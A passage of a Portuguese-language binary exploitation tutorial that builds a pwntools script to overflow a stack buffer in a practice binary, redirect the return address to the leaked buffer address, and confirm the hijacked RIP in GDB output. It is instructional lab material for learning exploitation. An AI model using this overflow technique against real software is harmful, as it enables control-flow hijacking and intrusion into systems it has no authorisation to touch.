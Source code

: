 Antes de executar o *script* como está, vamos configurar nele para ter um
*breakpoint* no GDB no endereço `main+104`, que é onde tem a instrução `ret` da
função `main()`. O objetivo aqui é pararmos a execução do programa nesse ponto
para validar se está acontecendo tudo certo como planejamos até então.

A forma que fazemos isso é indicando na chamada à `gdb.debug()` do `pwntools`,
ficando dessa forma:

```python
p = gdb.debug('./binexp_bof_01', '''
    b *main+104
    continue
''')
```

O *script*, até então, está dessa maneira:

```python
#!/usr/bin/env python3

from pwn import *

def logging(msg, value):
    return success(': '.join([msg, hex(value)]))

p = gdb.debug('./binexp_bof_01', '''
    b *main+104
    continue
''')

data = p.recvuntil(b': 0x')
data = p.recvuntil(b'\n')
addr = int(data[:-1], 16)
logging('buffer', addr)

payload = b'A' * 136
payload += p64(addr)
p.sendline(payload)

p.interactive()
```

Se executarmos o *script* nesse ponto e então colocarmos para executar a
instrução `ret` (comando `ni` do GDB), podemos ver o registrador `RIP` (comando
`i r $rip`) com o valor justamente do endereço do `buffer`. Investigando o
conteúdo desse endereço podemos confirmar que se trata dos nossos vários `A`s.

```
Breakpoint 1, 0x0000000000401273 in main ()
=> 0x0000000000401273 <main+104>:       c3                      ret
(gdb) ni
0x00007ffda2ac9860 in ?? ()
=> 0x00007ffda2ac9860:  41                      rex.B
(gdb) i r $rip
rip            0x7ffda2ac9860      0x7ffda2ac9860
(gdb) x/s $rip
0x7ffda2ac9860: 'A' <repeats 136 times>, "`\230\254\242\375\177"
```
